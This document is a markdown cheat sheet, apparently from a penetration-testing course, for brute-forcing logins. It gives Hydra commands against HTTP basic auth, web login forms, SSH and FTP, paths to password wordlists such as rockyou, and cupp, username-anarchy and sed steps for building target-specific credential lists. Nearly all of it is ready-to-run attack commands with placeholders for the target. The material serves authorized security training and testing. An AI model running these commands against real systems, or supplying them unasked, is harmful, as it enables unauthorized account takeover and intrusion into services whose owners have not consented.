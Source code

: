 # Login Brute Frocing

## Hydra

| **Command**                                                                                                                            | **Description**                                     |
| -------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `hydra -h`                                                                                                                             | hydra help                                          |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                   | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                             | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                     | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                   | FTP Brute Force - Static User, Pass Wordlist        |

## Wordlists

| **Command**                                                                        | **Description**            |
| ---------------------------------------------------------------------------------- | -------------------------- |
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`                      | Common Passwords Wordlist  |
| `/opt/useful/SecLists/Usernames/Names/names.txt`                                   | Common Names Wordlist      |

## Misc

| **Command**                                     | **Description**                        |
| ----------------------------------------------- | -------------------------------------- |
| `cupp -i`                                       | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' william.txt`              | Remove Passwords Shorter Than 8        |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt`              | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`      | Generate Usernames List                |
| `ssh b.gates@SERVER_IP -p PORT`                 | SSH to Server                          |
| `ftp 127.0.0.1`                                 | FTP to Server                          |
| `su - user`                                     | Switch to User                         |

